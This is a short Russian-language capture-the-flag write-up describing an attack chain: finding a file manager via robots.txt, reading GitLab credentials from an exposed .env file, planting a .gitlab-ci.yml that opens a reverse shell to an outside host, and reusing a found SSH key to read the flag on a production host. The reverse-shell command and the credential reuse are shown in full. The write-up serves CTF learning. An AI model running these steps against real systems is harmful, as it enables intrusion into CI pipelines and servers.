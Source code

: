 Решение от @Dan1Lev
Заглянув в robots.txt блога находим "Файловый менеджер" 
Disallow: /shell.php
Внутни которого лежит .env файл из которого получаем адрес и данные для gitlab

Открываем репозиторий и создаём CI/CD файл .gitlab-ci.yml через который получаем обратную оболочку
stages:
  - build

shell:
  stage: build
  script:
    - sh -i >& /dev/tcp/ts.fsox.ru/1964 0>&1

В корневой папке пользователя в .ssh находим ssh ключ, а в .bash_history логин и хост
подключаемся и забираем флаг
shell

ssh -o StrictHostKeyChecking=no -i ~/.ssh/id_rsa prod@production cat flag.txt

